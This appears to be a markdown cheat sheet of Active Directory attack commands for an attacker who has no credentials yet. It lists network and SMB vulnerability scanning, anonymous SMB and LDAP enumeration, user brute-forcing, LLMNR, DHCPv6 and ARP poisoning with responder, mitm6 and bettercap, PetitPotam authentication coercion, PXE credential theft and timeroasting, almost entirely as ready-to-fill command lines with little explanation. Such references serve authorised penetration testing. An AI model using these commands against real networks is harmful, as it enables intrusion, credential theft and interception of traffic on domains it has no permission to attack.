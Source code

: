 # No Credentials

## Scan network >>> Vulnerable host
- `nxc smb <ip_range>`
- `nmap -sP -p <ip>`
- `nmap -Pn -sV --top-ports 50 --open <ip>`
- `nmap -Pn --script smb-vuln* -p139,445 <ip>`
- `nmap -Pn -sC -sV -oA <output> <ip>`
- `nmap -Pn -sC -sV -p- -oA <output> <ip>`
- `nmap -sU -sC -sV -oA <output> <ip>`

## Find DC IP
- `nmcli dev show <interface>`
- `nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain>`
- `nmap -p 88 --open <ip_range>`

## Zone transfer
- `dig axfr <domain_name> @<name_server>`

## Anonymous & Guest access on SMB shares
- `nxc smb <ip_range> -u '' -p ''`
- `nxc smb <ip_range> -u 'a' -p ''`
- `enum4linux-ng.py -a -u '' -p '' <ip>`
- `smbclient -U '%' -L //<ip>`

## Enumerate LDAP >>> Username
- `nmap -n -sV --script 'ldap* and not brute' -p 389 <dc_ip>`
- `ldapsearch -x -H <dc_ip> -s base`

## Enumerate Users >>> Username
- `nxc smb <dc_ip> --users`
- `nxc smb <dc_ip> --rid-brute 10000 # bruteforcing RID`
- `net rpc group members 'Domain Users' -W '<domain> -l <ip> -U '%'`

## Bruteforce users >>> Username
- `kerbrute userenum -d <domain> <userlist>`
- `nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm= '<domain>',userdb=<user_list_file>" <dc_ip>`

## Poisoning >>> poisoning SMB || poisoning LDAP || poisoning HTTP
- LLMNR / NBTNS / MDNS
  - `responder -l <interface>`
- ⚠️ DHCPv6 (IPv6 prefered to IPv4)
  - `mitm6 -d <domain>`
  - `bettercap`
- ⚠️ ARP Poisoning
  - `bettercap`
  - `asreqroast`
    - `Pcredz -i <interface> -v` >>> Hash found ASREQ

## Coerce >>> Coerce SMB
- Unauthenticated PetitPotam (CVE-2022-26925) @CVE@
  - `petitpotam.py -d <domain> <listener> <target>`

## PXE
- no password >>> Credentials (NAA account)
  - `pxethief.py 1`
  - `pxethief.py 2 <distribution_point_ip>`
- password protected >>> PXE Hash
  - `tftp -i <dp_ip> GET "\xxx\boot.var"`
  - `pxethief.py 5 '\xxx\boot.var'`

## TimeRoasting >>> timeroast hash
- `timeroast.py <dc_ip> -o <output_log>`
